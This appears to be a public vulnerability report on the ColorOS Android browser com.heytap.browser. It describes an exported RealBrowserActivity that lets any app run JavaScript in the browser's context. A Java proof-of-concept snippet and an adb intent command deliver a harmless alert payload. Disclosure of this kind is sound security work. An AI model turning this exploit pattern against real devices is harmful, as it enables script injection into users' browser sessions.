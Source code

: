 ## Vulnerability Report

### Overview:
A vulnerability has been discovered in the `com.heytap.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - ColorOS
- **Application Name:** 'Internet Browser' `com.heytap.browser`
- **Version:** 45.10.3.4.1
- **Component:** com.android.browser.RealBrowserActivity

### Vulnerability Details:

- **Vulnerability Type:** JavaScript Code Execution
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.android.browser.RealBrowserActivity` activity in the `com.heytap.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.heytap.browser`` application.


### Proof of Concept (PoC):


```
{
        super.onCreate(savedInstanceState);

        String javaScriptCommand = "javascript:alert%28%27Test%20Alert%27%29%3B";

        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setData(Uri.parse(javaScriptCommand));
        intent.setClassName("com.heytap.browser", "com.android.browser.RealBrowserActivity");

        startActivity(intent);

        finish();
    }
```

```

adb shell am start -a android.intent.action.VIEW -d "javascript:alert%28%27Test%20Alert%27%29%3B" -n com.heytap.browser/com.android.browser.RealBrowserActivity

```

![poc-coloros](https://github.com/actuator/com.heytap.browser/assets/78701239/952f08c7-b8d6-4982-80bb-28b693b20134)




### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.heytap.browser` app.


